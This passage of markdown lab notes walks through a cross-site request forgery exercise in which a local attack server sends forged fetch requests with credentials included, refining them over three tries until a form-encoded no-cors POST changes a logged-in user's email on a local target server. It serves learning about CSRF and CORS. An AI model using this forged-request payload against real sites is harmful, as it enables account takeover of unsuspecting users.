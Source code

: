         </body>
        </html>
      ```

    - Test 01
      - Try 01: How this attack occurs
        - targer-server
          - Run targer-server: [targer-server](http://localhost:3333/home)
          - Login into targer-server
        - attack-server
          - Run targer-server: [attack-server](http://localhost:5555)
          - An error message is displayed in browser: 
            - Access to fetch at **'http://localhost:3333/login/edit'** from origin **'http://localhost:5555'** has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
              - This disable target server to send message about email changed.
              - We had not sent credential

      - Try 02: 

        - Update apps/attack-server/src/index_01.html file

          ```html
            ....
              <script>
                fetch("http://localhost:3333/login/edit", {
                  method: "POST",
                  credentials: "include",
                  body: {
                    email: "HACKED_sinqueteenteres@test.com"
                  }
                })
                  ....
              </script>
          ```

        - Try 02: How this attack occurs
          - targer-server
            - Run targer-server: [targer-server](http://localhost:3333/home)
            - Login into targer-server
          - attack-server
            - Run targer-server: [attack-server](http://localhost:5555)
            - Credentials are send to target-server
            - In attak-server browser's console cors error still happend. 
            - email is updated like **undefined**
              - This is because target-server does not expect a json it expect a form.

      - Try 03: 

        - Update apps/attack-server/src/index_01.html file

          ```html
            ....
              <script>
                fetch("http://localhost:3333/login/edit", {
                  method: "POST",
                  credentials: "include",
                  mode: "no-cors",
                  headers: {
                    "Content-type": "application/x-www-form-urlencoded"
                  },
                  body: "email=HACKED_sinqueteenteres@test.com",
                })
                  ....
              </script>
          ```
